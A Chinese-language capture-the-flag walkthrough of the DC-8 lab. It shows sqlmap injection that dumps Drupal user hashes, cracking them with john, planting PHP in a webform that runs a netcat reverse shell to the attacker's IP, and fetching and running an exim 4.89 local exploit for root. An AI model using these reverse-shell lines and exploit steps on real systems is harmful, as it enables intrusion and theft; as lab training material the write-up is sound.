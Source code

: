 ```yaml
---
title: DC-8
---
```

# DC-8

## 描述

> DC-8是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 这个挑战有点混合，既是实际挑战，又是关于在Linux上安装和配置的双因素身份验证是否可以防止Linux服务器被利用的“概念证明”。
>
> 这个挑战的“概念验证”部分是由于Twitter上被问到一个关于双因素身份验证和Linux的问题，也是由于@theart42的建议。
>
> 此挑战的最终目标是绕过双因素身份验证，获取root并读取唯一的标志。
>
> 除非您尝试通过SSH登录，否则您甚至可能不知道安装和配置了双因素身份验证，但它肯定在那里并且正在做它的工作。
>
> Linux 技能和对 Linux 命令行的熟悉是必须的，对基本渗透测试工具的一些经验也是必须的。
>
> 对于初学者来说，谷歌可以提供很大的帮助，但你总是可以在@DCAU7发推文给我寻求帮助，让你再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。

## 信息收集

确认目标机器的IP以及开启的端口

![image-20221201150628772](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201150628772.png)

访问80端口，点击welcome to DC-8发现这个url有点问题，猜想有sql注入

![image-20221201151645623](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201151645623.png)

扫描目录看看有没有登录口

```bash
dirsearch -u 192.168.71.130 -e * -x 403 --random-agent
```

![image-20221201160557499](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201160557499.png)

## SQl注入

在nid参数后面加入一个 `'`后出现了sql报错直接**sqlmap**跑一下

### 爆破数据库

```bash
sqlmap -u "http://192.168.71.130/?nid=1" --dbs
```

得到两个库，其中 `information_schema`是为了提供了访问数据库元数据的方式，所以可以暂时忽略

![image-20221201152316983](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201152316983.png)

### 爆破表

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db --tables
```

一共88个表，包含有**users**表，

![image-20221201153542043](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153542043.png)

![image-20221201153559541](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153559541.png)

### 爆破列

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users --columns
```

得到16列

![image-20221201153635852](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201153635852.png)

### 爆破字段名

```bash
sqlmap -u "http://192.168.71.130/?nid=1" -D d7db -T users -C name,pass,uid --dump
```

得到两个用户名和经过加密的密码，将密码保存好，利用**john**进行爆破

![image-20221201154123064](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201154123064.png)

## 爆破密码

```bash
john dc8_pass.txt
```

爆出一个：turtle

![image-20221201154620496](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201154620496.png)

## 登录后台

爆出密码后尝试利用登录，前面信息收集的时候就有发现其登录入口，经过测试，发现爆破出来的是john的密码

![image-20221201160940053](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201160940053.png)

在 `Content->Contact Us->Webform->Form settings`里发现有可利用点，可以写入php代码

![image-20221201161518710](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201161518710.png)

## 反弹shell

编写php文件直接执行命令反弹shell

```php
<?php
exec("nc -e /bin/bash 192.168.71.128 6666");
?> 
```

反弹成功

![image-20221201162252984](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162252984.png)

切换交互式shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 提权

find查找suid权限的命令

```bash
find / -perm -4000 -print 2>/dev/null
```

![image-20221201162431555](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162431555.png)

其中的exim4是可利用进行提权的

首先查看exim4的版本

![image-20221201162654433](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162654433.png)

搜索exim 4.89的漏洞

![image-20221201162930425](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201162930425.png)

复制文件到当前目录

```bash
cp /usr/share/exploitdb/exploits/linux/local/46996.sh hack.sh  
```

利用python起http服务进行传输

```bash
python -m http.server 6666
```

进入tmp文件夹下载文件

```bash
cd /tmp	//tmp文件夹
wget 192.168.71.128:6666/hack.sh	//下载目标文件
```

![image-20221201163259748](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201163259748.png)

但是这个文件是不可执行的，所以要对其赋予执行权限

```
ls -l	//查看当前目录下的所有文件权限
chmod 777 hack.sh	//赋予文件可读、可写和可执行权限
```

![image-20221201163421012](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201163421012.png)

脚本有两种方式，使用第二种利用**netcat**再次进行反弹shell

```bash
./hack.sh -m netcat		//执行脚本
nc -e /bin/bash 192.168.71.128 31337		//反弹shell
```

![image-20221201164356827](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201164356827.png)

## flag

进到根目录下找到flag

![image-20221201164614977](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20221201164614977.png)
